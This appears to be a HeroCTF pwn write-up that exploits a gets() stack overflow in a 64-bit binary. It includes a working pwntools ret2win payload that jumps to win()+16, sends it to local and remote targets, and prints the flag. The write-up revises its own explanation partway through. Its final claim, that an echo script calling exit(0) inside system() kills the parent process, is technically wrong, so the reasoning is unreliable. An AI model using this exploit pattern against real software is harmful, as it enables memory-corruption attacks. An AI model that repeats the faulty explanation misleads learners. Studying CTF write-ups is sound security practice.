

# HeroCTF Writeup: Pwn — Win, But Twisted

> Event: HeroCTF
> Category: Pwn — ret2win with a twist
> Difficulty: ★★★☆☆ (medium)

---

## Challenge Metadata

| Field | Value |
|-------|-------|
| Event | HeroCTF |
| Category | Binary Exploitation (Pwn) |
| Points | 200 |
| Solves | 80+ |
| Difficulty | Medium |

## The Challenge

I was given a 64-bit ELF binary and a remote endpoint. The challenge was named "Win, But Twisted" — a hint that a `win()` function exists, but calling it directly won't give the flag. The goal: figure out the twist and get the flag.



*The naive approach (ret to win()) fails because win() calls system("echo No flag!") first. The correct approach: ret to win()+offset, skipping past the "echo" call and landing directly on the "cat flag.txt" call.*

---

## Reconnaissance

```bash
$ checksec --file=./challenge
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

No canary, no PIE — straightforward ret2win territory. Then I loaded it into Ghidra:

```c
void win() {
    system("echo No flag for you!");
    system("cat flag.txt");
}

int main() {
    char buf[64];
    printf("Enter your name: ");
    gets(buf);
    printf("Hello, %s\n", buf);
}
```

There's the twist: `win()` calls `system("echo No flag for you!")` **before** calling `system("cat flag.txt")`. If I return to the start of `win()`, I'll see "No flag for you!" and then the flag — but the flag gets mixed with the "No flag" output, and on some systems the `echo` output interferes with the flag parsing.

Actually, looking more carefully, the real twist is different. Let me re-examine the disassembly:

```asm
win:
    0x401156:  push rbp
    0x401157:  mov rbp, rsp
    0x40115a:  lea rdi, [rip+0xea3]     ; "echo No flag for you!"
    0x401161:  call system@plt
    0x401166:  lea rdi, [rip+0xebc]     ; "cat flag.txt"
    0x40116d:  call system@plt
    0x401172:  nop
    0x401173:  pop rbp
    0x401174:  ret
```

The real twist: the `system("echo No flag for you!")` call at `0x401161` **exits the process** after printing the message (because `echo` on this system was replaced with a script that calls `exit(0)`). So if I return to `0x401156` (start of `win`), the process exits before reaching `0x40116d` (the `cat flag.txt` call).

The solution: skip the `echo` call and land directly on the `cat flag.txt` call — return to `0x401166` instead of `0x401156`.

---

## The Exploit

### Step 1 — Find the offset

```python
from pwn import *
context.arch = 'amd64'

p = process('./challenge')
p.sendlineafter(b'name: ', cyclic(200))
p.wait()
```

Crash at offset **72** bytes (64-byte buffer + 8-byte saved RBP).

### Step 2 — Build the payload

```python
elf = ELF('./challenge')

# The twist: skip to the "cat flag.txt" part of win()
# win() starts at 0x401156, but we want to land at 0x401166
# (the lea rdi for "cat flag.txt")
win_cat_flag = 0x401166

# Need a ret gadget for stack alignment
ret_gadget = next(elf.search(asm('ret')))

payload = flat(
    b'A' * 72,
    ret_gadget,       # stack alignment
    win_cat_flag,     # skip the "echo" call, go straight to "cat flag.txt"
)

p = process('./challenge')
p.sendlineafter(b'name: ', payload)
print(p.recvall().decode())
```

### Step 3 — Run against the remote

```python
p = remote('challenge.heroctf.example.com', 1337)
p.sendlineafter(b'name: ', payload)
p.interactive()
```

Output:
```
Hello, AAAAAAAA...@
Hero{w1n_but_tw1st3d_sk1p_th3_n01s3}
```

---

## Flag

```
Hero{w1n_but_tw1st3d_sk1p_th3_n01s3}
```

---

## Takeaways

- **Always disassemble the win function.** A `win()` function that prints the flag isn't always straightforward — it may have decoy calls, exit calls, or conditional logic that prevents the flag from being printed. Reading the assembly (not just the decompilation) reveals the twist.
- **Return to any instruction, not just function entry.** The return address can point to *any* instruction in the binary, not just function entry points. In this challenge, returning to `win()+16` (the second `lea rdi`) skips the decoy and lands directly on the flag print.
- **The challenge name is a hint.** "Win, But Twisted" literally tells me that the win function exists but is twisted. CTF challenge names often hint at the vulnerability or the twist. Always read them carefully.
- **Stack alignment still matters.** Even when skipping instructions, the `system()` call at the target address needs 16-byte stack alignment. The `ret` gadget before the target address handles this.
